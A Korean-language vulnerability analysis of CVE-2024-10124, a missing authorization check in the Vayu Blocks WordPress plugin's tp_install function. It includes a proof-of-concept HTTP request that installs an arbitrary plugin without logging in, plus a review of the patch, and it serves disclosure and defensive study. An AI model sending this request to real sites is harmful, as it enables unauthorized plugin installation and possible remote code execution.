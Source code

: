 # CVE-2024-10124

## Index
* [📌 Analysis](#📌-analysis)
    * [1. 개요](#1-개요)
    * [2. 취약점 분석](#2-취약점-분석)
* [📌 PoC](#📌-poc)
* [📌 패치 확인](#📌-패치-확인)

## 📌 Analysis

### 1. 개요

`CVE-2024-10124` 취약점은 워드프레스 플러그인 ‘Vayu Blocks – Gutenberg Blocks for WordPress & WooCommerce(이하, Vayu Blocks)’ 의 버전 1.1.1 이하에서 인증되지 않은 사용자가 임의의 플러그인을 설치 및 활성화할 수 있는 취약점 입니다.

### 2. 취약점 분석

> ⚠️
> CVE-2024-10124의 경우 버전 1.1.1 이하에서 발생하는 취약점이라 명시되어 있지만, 인증되지 않은 사용자로 취약점을 재현 하려면 버전 1.1.0 이하에서 수행해야 합니다.
>

Vayu Blocks 플러그인의 대시보드 메뉴 'Vayu Sites'에서는 해당 플러그인을 사용하여 기본 템플릿을 지정할 수 있습니다.

![image](images/image-001.png)

템플릿은 아래와 같이 테마로 이루어진 워드프레스 사이트를 확인할 수 있으며,

![image](images/image-002.png)

원하는 템플릿을 선택한 뒤 하단의 CONTINUE 버튼을 클릭하면,

![image](images/image-003.png)

워드프레스 사이트에 템플릿 적용에 필요한 테마 및 플러그인이 설치된다는 확인 페이지가 나타납니다. 이어서 Build My Website 버튼을 클릭하면 설치가 진행됩니다.

![image](images/image-004.png)

설치가 시작될 때, HTTP 요청 패킷을 살펴보면 총 5개의 플러그인을 추가 설치하기 위한 데이터가 전송되는 것을 확인할 수 있습니다.

![image](images/image-005.png)

데이터를 살펴보면 `plugin`의 값은 설치할 플러그인의 slug와 플러그인 이름이 키-값 쌍으로 구성되어 있습니다(예: `"woocommerce": "Woocommerce"`). 이때 키에 해당하는 슬러그(`"woocommerce"`)는 `allPlugins`의 값에도 동일하게 존재하며, 여기서는 플러그인 설치를 위한 엔드포인트(`woocommerce/woocommerce.php`) 경로를 지정하고 있습니다.

위 요청은 Vayu Blocks 플러그인의 `wp-content/plugins/vayu-blocks/inc/vayu-sites/app.php` 파일내 `tp_install` 함수를 호출합니다.

![image](images/image-006.png)

이때, `tp_install` 함수를 호출한 사용자에 대한 접근 권한을 검사하지 않고 있습니다. 따라서 인증되지 않은 사용자가 `tp_instasll` 함수 호출을 위한 요청 패킷을 전달할 경우 임의의 플러그인을 설치 및 활성화 할 수 있는 취약점이 발생합니다.

이를 통해 인증되지 않은 공격자가 임의의 플러그인을 설치 및 활성화하여 다른 취약한 플러그인을 내려받아 원격 코드 실행을 수행할 수 있습니다.

## 📌 PoC

Vayu Blocks 플러그인 버전 1.1.0을 설치한 후 아래의 HTTP 패킷을 전송합니다. 이 패킷은 인증되지 않은 사용자가 대상 워드프레스 사이트에 Classic Editor 플러그인을 설치하도록 하는 요청입니다.

```plaintext
POST /wp-json/ai/v1/vayu-site-builder HTTP/1.1
Host: localhost:8080
Content-Type: application/json
Content-Length: 372

{
    "params": {
        "plugin": {
            "classic-editor": "Classic Editor"
        },
        "allPlugins": [
            {
                "classic-editor": "classic-editor/classic-editor.php"
            }
        ],
        "themeSlug": "",
        "proThemePlugin": "",
        "templateType": "free",
        "tmplFreePro": "plugin"
    }
}
```

위 요청 패킷을 보내면 서버로부터 정상적인 응답 메시지를 수신할 수 있으며,

![image](images/image-007.png)

워드프레스 사이트에 Classic Editor 플러그인이 설치 및 활성화된 것을 확인하실 수 있습니다.

![image](images/image-008.png)

## 📌 패치 확인

즉시 패치된 내용은 `current_user_can('manage_options')` 함수를 이용하여 관리자(Administrator) 역할을 가지는 사용자만이 `tp_install` 함수를 호출하도록 하고 있습니다.

> [https://plugins.trac.wordpress.org/changeset/3173408/vayu-blocks/trunk/inc/vayu-sites/app.php?old=3091496&old_path=vayu-blocks%2Ftrunk%2Finc%2Fvayu-sites%2Fapp.php](https://plugins.trac.wordpress.org/changeset/3173408/vayu-blocks/trunk/inc/vayu-sites/app.php?old=3091496&old_path=vayu-blocks%2Ftrunk%2Finc%2Fvayu-sites%2Fapp.php)
> 

![image](images/image-009.png)

이후 추가로 패치 된 내용으로는 CSRF 공격을 방어하기 위해 Nonce 값 검증을 수행하고 있습니다.

> [https://plugins.trac.wordpress.org/changeset/3203532/vayu-blocks/tags/1.2.0/inc/vayu-sites/app.php](https://plugins.trac.wordpress.org/changeset/3203532/vayu-blocks/tags/1.2.0/inc/vayu-sites/app.php)
> 

![image](images/image-010.png)